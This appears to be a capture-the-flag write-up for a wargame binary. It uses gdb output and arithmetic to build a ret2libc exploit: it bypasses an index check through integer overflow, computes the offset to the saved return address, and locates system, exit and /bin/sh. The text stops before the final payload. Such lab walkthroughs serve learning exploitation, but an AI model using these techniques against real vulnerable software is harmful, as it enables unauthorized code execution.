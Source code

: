 RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07


We know that v6[400] where are stocked the number is : 
_BYTE v6[400]; // [esp+24h] [ebp-1B8h] BYREF --> 1b8 = 440

We also now that the bounds of v6[400] are not checked, we can write in it as we want (lower or higher than the buffer).

We can store number in a index, but the index has to be something
not modulo % 3 == 0.
We don t want to have the index
(uVar1 >> 0x18 == 0xb7) //0x18 = 24 | 0xb7 = 183
checks if the value of uVar1 after shifting it 24 bits to the right is not equal to 183.
If we don t have this two conditions, we can store a number at the index that we want.

So here we want to do some ret2libc like in the level04 to overwrite the Eip
with the address of system, the return adress of system with the address of exit and the argument of system with the address of /bin/sh.


But first we have to find the offset between the buffer and the return address of the main function.

1) We want to find the address of the Eip :

(gdb) disas main
[...]
0x080489bc <+665>:	movl   $0x0,0xc(%eax)
0x080489c3 <+672>:	movl   $0x0,0x10(%eax)
0x080489ca <+679>:	jmp    0x804884f <main+300>
0x080489cf <+684>:	nop
0x080489d0 <+685>:	mov    $0x0,%eax
0x080489d5 <+690>:	mov    0x1cc(%esp),%esi
0x080489dc <+697>:	xor    %gs:0x14,%esi
0x080489e3 <+704>:	je     0x80489ea <main+711>
0x080489e5 <+706>:	call   0x80484b0 <__stack_chk_fail@plt>
0x080489ea <+711>:	lea    -0xc(%ebp),%esp
0x080489ed <+714>:	pop    %ebx
0x080489ee <+715>:	pop    %esi
0x080489ef <+716>:	pop    %edi
0x080489f0 <+717>:	pop    %ebp
0x080489f1 <+718>:	ret    
End of assembler dump.

(gdb) b *0x080489ea			--> break after store the number to see the value of the Eip
Breakpoint 1 at 0x80489ea
(gdb) run
Starting program: /home/users/level07/level07 
----------------------------------------------------
Welcome to wil's crappy number storage service!   
----------------------------------------------------
Commands:                                          
	store - store a number into the data storage    
	read  - read a number from the data storage     
	quit  - exit the program                        
----------------------------------------------------
wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
Number: 11
Index: 10
Completed store command successfully
Input command: exit
Failed to do exit command
Input command: quit

Breakpoint 1, 0x080489ea in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
eip = 0x80489ea in main; saved eip 0xf7e45513
Arglist at 0xffffd708, args: 
Locals at 0xffffd708, Previous frame's sp is 0xffffd710
Saved registers:
ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c


Stack level 0, frame at 0xffffd710: This indicates that the current stack frame is at memory address 0xffffd710.
eip = 0x80489ea in main; saved eip 0xf7e45513: The eip register (instruction pointer) contains the value 0x80489ea, indicating the current execution is in the main function. The saved eip value 0xf7e45513 represents the return address saved on the stack for the previous function.
Arglist at 0xffffd708, args:: This would normally display the arguments passed to the current function, but since there are no arguments listed, it shows as empty.
Locals at 0xffffd708, Previous frame's sp is 0xffffd710: This indicates that the local variables for the current frame are located at memory address 0xffffd708. The previous frame's stack pointer (sp) is at 0xffffd710.
Saved registers:: This section lists the values of certain registers that were saved on the stack during the function call. In this case:
ebx is stored at memory address 0xffffd6fc.
ebp is stored at memory address 0xffffd708.
esi is stored at memory address 0xffffd700.
edi is stored at memory address 0xffffd704.
eip (instruction pointer) is stored at memory address 0xffffd70c. --> perfect we have the Eip address

Eip = 0xffffd70c = 4294956812

2) We want to find the address of the buffer :

(gdb) p $ebp + 4 --> we now that ebp+4 is the return address
$2 = (void *) 0xffffd70c
(gdb) p $ebp + 8
$3 = (void *) 0xffffd710
(gdb) p $ebp + 12
$4 = (void *) 0xffffd714

(gdb) p $esp+0x24
$6 = (void *) 0xffffd544	--> we now that esp+24 is the address of the buffer (Look at hex_ray.c)

We display the addresses of ebp + 4, ebp + 8 and ebp + 12.
Look at stack_representation.png :
ebp + 4 is the return address, ebp + 8 is the Parameter 1 and ebp + 12 is the Parameter 2.


3) Find the offset between the buffer and the Eip :

>>> 0xffffd70c - 0xffffd544
456

The difference between the addresse of the buffer and the Eip is 456 bytes.
We have our offset !

4) Find the good index to put the address of system :

So we have 456 bytes to write before overwriting the Eip.
The index is in int format so we have to write 114 bytes (456/4) to overwrite the Eip. (4 bytes = 1 int).
So our index is 114 !

We have to test if we can put this index :

>>> 114 % 3
0

Oh damn... We go in the condition : (uVar2 % 3 == 0)
So we don t write the number...
puts(" *** ERROR! ***");
puts("   This index is reserved for wil!");
puts(" *** ERROR! ***");

We have to find another way to pass the condition, and have the same index.
We remember in the bonus1 of Rainfall, that we can use integer overflow/underflow.

int min in c : 2147483647

Create a little program to test the integer overflow : test.c

./a.out 2147483648
Dest = -2147483648

>>> 2147483648 * 2
4294967296

./a.out 4294967296
Dest = 0

With this overflow, we can have 0 with 4294967296.
Now we can add 114 to 4294967296 to have 114.

>>> 4294967296 + 114
4294967410

And verify with our script :
./a.out 4294967410          
Dest = 114

Perfect it works !
Now we have to check if this number % 3 is different of 0 :
>>> 4294967410 % 3
1

Perfect, this problem is solved !

Check with our script decode.c if (uVar1 >> 0x18 == 0xb7) is false

./a.out 4294967410                                      
Value = 114 | is Good

The value 4294967410 is good !


5) We have to find the address of system, exit and /bin/sh :

So let s find the address of system, exit and /bin/sh. (Like in level04 of override)

(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

system --> 0xf7e6aed0 = 4159090384
exit --> 0xf7e5eb70 = 4159040368
/bin/sh --> 0xf7f897ec = 4160264172

6) We have to create our payload :

We have to create our payload with the address of system, exit and /bin/sh.
We have to write 114 bytes before overwriting the Eip.


